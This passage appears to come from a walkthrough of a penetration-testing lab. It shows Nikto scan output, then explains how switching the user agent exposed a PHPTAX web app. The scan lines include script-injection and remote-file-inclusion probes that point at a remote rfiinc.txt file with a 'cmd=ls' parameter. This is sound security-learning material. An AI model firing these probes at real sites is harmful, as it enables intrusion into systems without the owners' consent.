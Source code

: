 ```
+ OSVDB-3268: /?D=A: Directory indexing found.
+ OSVDB-3268: /?N=D: Directory indexing found.
+ OSVDB-3268: /?S=A: Directory indexing found.
+ OSVDB-3268: /?M=A: Directory indexing found.
+ OSVDB-3268: /?\"><script>alert('Vulnerable');</script>: Directory indexing found.
+ OSVDB-3268: /?_CONFIG[files][functions_page]=http://cirt.net/rfiinc.txt?: Directory indexing found.
+ OSVDB-3268: /?npage=-1&content_dir=http://cirt.net/rfiinc.txt?&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?npage=1&content_dir=http://cirt.net/rfiinc.txt?&cmd=ls: Directory indexing found.
+ OSVDB-3268: /?show=http://cirt.net/rfiinc.txt??: Directory indexing found.
+ OSVDB-3268: /?-s: Directory indexing found.
+ OSVDB-3268: /?q[]=x: Directory indexing found.
+ 7356 requests: 0 error(s) and 44 item(s) reported on remote host
+ End Time:           2014-04-08 10:54:50 (GMT-4) (60 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Back on Iceweasel, I used the User Agent Switcher Add-On and set the user agent to Internet Explorer 6, refreshed the webpage, and a directory index was returned:

![](/images/2014-04-08/02.png)

Following through this link loaded the PHPTAX webapp (thanks for the tax season reminder loneferret):
